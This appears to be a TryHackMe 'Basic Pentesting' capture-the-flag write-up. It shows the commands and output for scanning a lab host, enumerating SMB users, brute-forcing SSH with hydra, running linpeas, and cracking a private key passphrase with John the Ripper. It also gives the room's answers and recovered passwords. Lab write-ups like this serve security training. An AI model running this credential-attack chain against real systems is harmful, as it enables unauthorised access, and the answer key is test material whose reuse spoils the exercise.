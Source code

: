 # Basic Pentesting

## Task 1

1. Deploy the machine and connect to our network 
```
export IP=10.10.3.156
```

2. Find the services exposed by the machine
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ nmap -sC -sV -Pn -n -oN nmap/initial.txt $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-14 20:51 MDT
Stats: 0:01:35 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 20:53 (0:00:35 remaining)
Stats: 0:02:50 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 20:55 (0:01:13 remaining)
Nmap scan report for 10.10.3.156
Host is up (0.14s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13?
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http-proxy
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

3.  What is the name of the hidden directory on the web server(enter name without /)?
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.3.156
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/14 20:54:39 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/development (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/14 20:55:49 Finished
```


4.  User brute-forcing to find the username & password
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ enum4linux -a $IP | tee enum4linux.log
```
This found some SMB shares that we could pursue:
```
========================================
|    Share Enumeration on 10.10.3.156    |
========================================

 Sharename       Type      Comment
 ---------       ----      -------
 Anonymous       Disk      
 IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
 ```
`enum4linux` also finds two users on the box, `kay` and `jan`:
```
======================================================================
|    Users on 10.10.3.156 via RID cycling (RIDS: 500-550,1000-1050)    |
======================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

5. What is the username?      
The username was found using `enum4linux` in combinatoin with reading the hints found under the `/development` directory on the web page. The usename is `jan`


6. What is the password?
We can brute force the password using `hydra`:
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-14 21:30:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.3.156:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 123.67 tries/min, 371 tries in 00:03h, 14344030 to do in 1933:10h, 16 active
[22][ssh] host: 10.10.3.156   login: jan   password: armando
```

7.  What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```


8.  Enumerate the machine to find any vectors for privilege escalation
We can now log in using the `jan:armando` credentials that we found. We can scp and run `linpeas` as follows:
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ scp linpeas.sh jan@$IP:/tmp
jan@10.10.3.156's password:
linpeas.sh                                                                                                                                                 100%  219KB 107.9KB/s   00:02    
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$
```
Once `linpeas` is on the box, mark as executable and run:
```
jan@basic2:~$ chmod +x /tmp/linpeas.sh
jan@basic2:~$ /tmp/linpeas.sh
```
Looking through the output that `linpeas` returns us, we see that we can access the private key file of the `kay` user.
```
[+] Looking for ssl/ssh files
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
Port 22
PermitRootLogin prohibit-password
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
 --> /etc/hosts.allow file found, read the rules:
```
Copying the key to our local machine and we find that the private key is password protected, so we can use JtR's `ssh2john` to get a hash from the private key:
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ /opt/JohnTheRipper/src/john kay_id_rsa --wordlist=/usr/share/wordlists/rockyou.txt
```
Now that we have a hash, we can load that hash into JtR like normal and get the password:
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)
```


9.  What is the name of the other user you found(all lower case)?
From the SMB share enumeration earlier:
```
kay
```

10.  If you have found another user, what can you do with this information?
Brute force the password.

11.  What is the final password you obtain?
After using JtR the password to the private key is:
```
beeswax
```
Using this password we can now ssh to the box as `kay` and in the home directory is our file containing the final password:
```
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$
```
